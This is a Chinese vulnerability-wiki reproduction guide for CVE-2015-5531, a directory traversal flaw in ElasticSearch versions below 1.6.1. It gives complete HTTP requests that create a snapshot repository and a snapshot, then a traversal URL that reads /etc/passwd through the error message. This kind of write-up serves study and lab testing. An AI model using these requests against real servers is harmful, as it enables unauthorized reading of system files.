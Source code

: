 （CVE-2015-5531）ElasticSearch 目录穿越漏洞
===========================================

一、漏洞简介
------------

elasticsearch
1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在`path.repo`，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

二、漏洞影响
------------

ElasticSearch 1.6.1以下

三、复现过程
------------

### 1. 新建一个仓库

    PUT /_snapshot/test HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

    {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test" 
        }
    }

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId25.png)

### 2. 创建一个快照

    PUT /_snapshot/test2 HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

    {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
        }
    }

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId27.png)

### 3. 目录穿越读取任意文件

访问
`http://www.0-sec.org:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId29.png)

如上图，在错误信息中包含文件内容（编码后），对其进行解码即可获得文件：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId30.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2015-5531/
